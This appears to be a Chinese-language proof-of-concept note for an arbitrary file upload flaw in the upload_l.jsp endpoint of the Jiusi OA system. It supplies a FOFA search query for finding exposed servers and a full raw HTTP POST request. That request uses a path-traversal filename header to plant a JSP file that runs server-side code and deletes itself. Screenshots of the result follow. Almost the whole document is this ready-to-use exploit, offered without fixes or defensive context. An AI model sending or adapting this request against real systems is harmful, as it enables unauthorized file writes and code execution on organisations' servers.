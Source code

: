 # 九思OA系统upload_l.jsp存在任意文件上传漏洞

九思OA系统upload_l.jsp存在任意文件上传漏洞

## fofa

```javascript
body="/jsoa/webmail/ajax_util.js"
```

## poc

```javascript
POST /jsoa/wpsforlinux/src/upload_l.jsp?openType=1&flowflag=1&userName=1&recordId=1 HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Content-Length: 102
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Upgrade-Insecure-Requests: 1
filename: /../../tologin.jsp

<%out.println(111*111);new java.io.File(application.getRealPath(request.getServletPath())).delete();%>
```

![](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412062221004.png)

文件路径：

![](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412062222216.png)